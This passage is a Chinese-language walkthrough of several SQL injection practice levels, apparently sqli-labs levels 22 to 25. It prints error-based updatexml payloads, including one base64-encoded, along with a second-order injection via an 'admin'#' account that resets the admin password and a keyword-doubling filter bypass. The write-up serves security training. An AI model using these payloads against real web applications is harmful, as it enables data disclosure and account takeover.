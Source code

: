 ![image-20220922002129128](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922002129128.png)

就加了一个双引号😥怪我没有再多尝试

```
"or updatexml(1,concat(0x7e,database(),0x7e),1) or"
base64转码
Im9yIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLGRhdGFiYXNlKCksMHg3ZSksMSkgb3Ii
```

![image-20220922002305479](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922002305479.png)

## 第二十三关

![image-20220922003517360](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922003517360.png)

尝试使用--+和#发现被过滤了,尝试使用报错注入

```
1'and updatexml(1,concat(0x7e,database(),0x7e),1) and'
```

![image-20220922005601953](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922005601953.png)

## 第二十四关

这里使用二次注入，创建一个admin'#的用户，然后通过修改这个用户的密码，从而间接的修改了admin的密码

![image-20220922011304650](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922011304650.png)

登录成功

![image-20220922011512433](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922011512433.png)

修改密码，修改密码为qwe

![image-20220922011532920](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922011532920.png)

尝试使用qwe登录admin，登录成功

![image-20220922011611813](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922011611813.png)

![image-20220922011618207](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922011618207.png)

## 第二十五关

提示的很明显，会对payload里or和and进行过滤

![image-20220922011957793](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922011957793.png)

尝试使用：`?id=1' anandd 1=1--+`进行绕过，成功

![image-20220922012203628](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922012203628.png)
